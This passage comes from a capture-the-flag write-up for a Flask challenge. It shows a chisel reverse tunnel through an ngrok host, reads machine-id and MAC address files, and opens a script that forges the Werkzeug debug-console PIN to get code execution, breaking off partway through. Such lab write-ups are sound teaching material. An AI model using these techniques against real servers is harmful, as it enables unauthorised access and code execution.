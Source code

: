 **Connect to the server from the client:**
```shell
(remote) www-data@flask:/tmp$ ./chiselx64 client 0.tcp.ap.ngrok.io:18937 R:5001:127.0.0.1:5000&
[1] 106
2023/05/13 15:47:59 client: Connecting to ws://0.tcp.ap.ngrok.io:18937
```

**Now we can visit the development one in `localhost:5001`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513233530.png)

**After some testing, the 404 and admin page doesn't vulnerable to SSTI anymore:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513233708.png)

Hmm... How can we escalate our privilege to user `flaskdev`...

**In the development one, the `debug` mode is set to `True`!**

**In Flask, if debug mode is enabled, anyone can go to `/console`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513234845.png)

***This console page can execute any Python code!!***

**Although it's being locked by the PIN code, we can bypass that!**

In KnightCTF 2023, I wrote a writeup for a web challenge called "Knight Search": [https://siunam321.github.io/ctf/KnightCTF-2023/Web-API/Knight-Search/](https://siunam321.github.io/ctf/KnightCTF-2023/Web-API/Knight-Search/).

In that writeup, I mentioned how to bypass the PIN code.

**Boot ID:**
```shell
(remote) www-data@flask:/tmp$ cat /etc/machine-id 
68f432c96a6d45f585a019af1ad31fc2
```

**MAC address:**
```shell
(remote) www-data@flask:/tmp$ cat /sys/class/net/eth0/address 
02:42:0a:63:64:02
```

**Final public and private bits:**

-   Public bits:
    -   username: `flaskdev`
    -   modname: `flask.app`
    -   `Flask`
    -   The absolute path of `app.py` in the flask directory: `/usr/local/lib/python3.10/dist-packages/flask/app.py` (You can find this by triggering `ZeroDivisionError` via `/?op=divide&n1=0&n2=0`)
-   Private bits:
    -   MAC address: `2482665382914`
    -   Machine ID: `68f432c96a6d45f585a019af1ad31fc2`

```py
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'flaskdev',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.10/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'2482665382914',# str(uuid.getnode()),  /sys/class/net/ens33/address 
```